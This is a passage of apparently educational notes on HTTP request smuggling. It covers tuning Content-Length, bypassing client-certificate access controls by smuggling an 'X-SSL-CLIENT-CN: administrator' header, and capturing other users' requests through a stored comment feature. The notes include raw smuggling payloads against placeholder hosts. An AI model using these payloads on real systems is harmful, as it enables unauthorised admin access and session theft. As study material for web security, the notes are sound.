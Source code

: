 - for Content-Length header in smuggled request, it should be set a bit bigger than the submitted request and gradually increase the value to retrieve more information

- if it is known how the front-end server is rewriting requests, it can be applied the necessary rewrites to the smuggled requests, to ensure they are processed in the intended way by the back-end server

### Bypassing client authentication

- as part of TLS handshake, servers authenticate themselves with the client (browser) by providing a certificate that contains common name (CN) which should match their registered hostname
- client can use this to verify that they're talking to a legitimate server belonging to the expected domain
- CN is often a username which can be used in the back-end application logic as part of an access control mechanism
- eg -

```
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

- they are completely hidden from users
- you're able to send the right combination of headers and values and can bypass access controls

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

### Capturing other user's requests

- if the application contains any kind of functionality that allows textual data to be stored and retrieved, HTTP request smuggling can be used to capture the contents of other users' requests which include session tokens, enabling session hijacking attacks, or other sensitive data submitted by the user
- an application uses the following request to submit a blog post comment which will be stored and displayed on the blog:

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```
